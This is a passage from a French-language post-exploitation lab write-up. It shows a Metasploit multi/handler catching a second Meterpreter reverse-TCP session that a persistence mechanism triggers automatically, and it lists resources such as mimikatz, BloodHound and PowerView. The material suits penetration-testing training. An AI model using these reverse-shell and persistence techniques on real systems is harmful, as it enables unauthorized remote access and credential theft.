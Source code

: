 Et on relance le multi/handler :

```sh
msf5 > use multi/handler
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.11.7.104:4444
[*] Sending stage (201283 bytes) to 10.10.108.178
[*] Meterpreter session 2 opened (10.11.7.104:4444 -> 10.10.108.178:50220) at 2020-08-17 12:05:49 -0400

meterpreter > 
```

Nous avons bien une deuxième session sans exécuter la payload sur la machine victime, car elle a été automatiquement déclenchée !

## Ressources

- https://blog.harmj0y.net/
- https://adsecurity.org/?page_id=1821
- https://metasploit.help.rapid7.com/docs/about-post-exploitation
- http://www.pentest-standard.org/index.php/Post_Exploitation
- https://offsec.red/mimikatz-cheat-sheet/
- https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

- https://github.com/gentilkiwi/mimikatz
- https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1
- https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

